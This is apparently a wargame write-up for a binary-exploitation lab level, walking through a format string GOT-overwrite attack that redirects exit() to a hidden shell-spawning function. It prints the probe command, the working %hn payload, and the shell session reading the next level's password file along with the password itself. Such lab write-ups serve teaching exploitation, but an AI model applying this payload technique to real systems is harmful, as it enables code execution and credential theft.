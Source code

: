 # Level5

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level4
  teststring
  teststring
```

> It looks like this is similar to the previous level...

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). At first glance it appears that a **buffer overflow** won't be possible here since the program uses [`fgets()`](https://linux.die.net/man/3/fgets) and reads up to **512** bytes while the buffer is **520** bytes long.

After some deeper analysis, we find that there is a built-in way to spawn a shell within this program but the function were this logic happens is never called. Since the program don't return to the main at the end of execution but calls for `exit()`, we could use what's called a [GOT overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.


The process is as follows:

- Get the address of `exit()` in the Global Offset Table.
- Get the address of the function we want to run, `o()` in our case.
- Find the stack argument representing the format string.
- Overwrite the call to `exit()` by the address of `o()`.

Thanks to our `gdb` analysis we get:

- `exit()` function: `0x08049838`.
- `o()` function: `0x080484a4`.

Since these two addresses share the same two high order bytes we can take a shortcut here. We can update only the low order bytes so that `o()` would be executed making the **format string** a bit shorter and more readable.

Like before let's, first, identify which positional argument is our input.

```shell
  $> python -c 'print "AAAA" + " %p" * 8' | ./level5
  AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```

> This time our input is the 4th stack argument.

Now that we know the format string position in the stack all we have to do is to create a **33956** character long string containing the address of `exit()` to match the lower order bytes from `o()` address and output its low order bytes using `%hn`.

```shell
  $> (python -c 'print "\x08\x04\x98\x38"[::-1] + "%33952c%4$hn"'; cat) | ./level5    
  ...
  cat /home/user/level6/.pass 
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

> We, first, write the address of `exit()`, which is already **4** bytes, so using `%33952c` will add **33952** spaces as padding resulting in a **33956** character long string. Then all we have to do is output the number of character printed until this point using `%hn` into the 4th positional stack argument low order bytes we want to change using `%4$`.

So next user credentials pair is `level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`.

Check [here](./source.c) for reproduction source-code of this binary.